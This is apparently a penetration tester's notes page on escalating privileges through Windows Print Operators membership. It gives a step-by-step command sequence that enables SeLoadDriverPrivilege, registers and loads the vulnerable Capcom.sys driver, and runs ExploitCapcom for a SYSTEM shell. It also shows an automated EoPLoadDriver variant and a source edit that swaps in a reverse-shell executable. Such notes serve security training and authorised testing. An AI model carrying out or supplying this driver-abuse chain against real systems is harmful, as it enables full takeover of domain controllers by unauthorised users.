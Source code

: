# Print Operators

## <mark style="color:yellow;">About</mark>

<mark style="color:red;">**Print Operators**</mark> is another highly privileged group, which grants its members the <mark style="color:green;">`SeLoadDriverPrivilege`</mark>, rights to <mark style="color:purple;">**manage, create, share, and delete printers**</mark> connected to a Domain Controller, as well as the ability to log on locally to a Domain Controller and shut it down.

## <mark style="color:yellow;">Capcom Driver Abuse</mark>

The plan is to use <mark style="color:green;">**EnableSeLoadDriverPrivilege**</mark> script [**\[LINK\]**](https://github.com/3gstudent/Homework-of-C-Language/blob/master/EnableSeLoadDriverPrivilege.cpp) to enable <mark style="color:green;">`SeLoadDriverPrivilege.`</mark> Then we need to load the <mark style="color:green;">**Capcom.sys**</mark> [**\[LINK\]**](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) driver, which was used originally as a anti-cheat for Capcom games, but it also have functionality to allow any user to execute shellcode with <mark style="color:green;">`SYSTEM`</mark> privileges. Then we make a Registry key and edit it for Capcom.sys to be seen. Then we check it with <mark style="color:green;">**DriverView**</mark> [**\[LINK\]**](http://www.nirsoft.net/utils/driverview.html). After we verified that info, we are using <mark style="color:green;">**ExploitCapcom**</mark> script [**\[LINK\]**](https://github.com/tandasat/ExploitCapcom) to get SYSTEM shell.

<mark style="color:orange;">**OR**</mark> we can change code of <mark style="color:green;">**ExploitCapcom**</mark> to make a reverse shell for us (if we have no GUI access).

### <mark style="color:blue;">Check privs</mark>

```powershell
C:\> whoami /priv
```

### <mark style="color:blue;">EnableSeLoadPrivilege</mark>

```powershell
C:\> .\EnableSeLoadDriverPrivilege.exe
```

### <mark style="color:blue;">Add Reference to Driver</mark>

You need to download Capcom.sys to <mark style="color:green;">`C:\temp`</mark>. Issue the commands below to add a reference to this driver under our <mark style="color:blue;">**HKEY\_CURRENT\_USER**</mark> tree.

```powershell
C:\> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\temp\Capcom.sys"

C:\> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

### <mark style="color:blue;">Verify Driver</mark>

```powershell
PS C:\> .\DriverView.exe /stext drivers.txt

PS C:\> cat drivers.txt | Select-String -pattern Capcom
```

### <mark style="color:blue;">Exploiting</mark>

```powershell
PS C:\> .\ExploitCapcom.exe
```

***

### <mark style="color:blue;">Same stuff but automated</mark>

We can use <mark style="color:green;">**EoPLoadDriver**</mark> [**\[LINK\]**](https://github.com/TarlogicSecurity/EoPLoadDriver/) script to automate process of enabling the privilege, creating the registry key, and executing <mark style="color:green;">`NTLoadDriver`</mark> to load the driver by using this command.

```powershell
C:\> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\temp\Capcom.sys
```

```
PS C:\> .\ExploitCapcom.exe
```

***

### <mark style="color:blue;">NO GUI</mark>

For that we need to find ExploitCapcom.cpp. change string below and recompile.

```cpp
B E F O R E : TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");

A F T E R : TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

***

### <mark style="color:blue;">Cleanup</mark>

For a little clean up we could just delete registry key we made before.

```powershell
C:\> reg delete HKCU\System\CurrentControlSet\Capcom
```
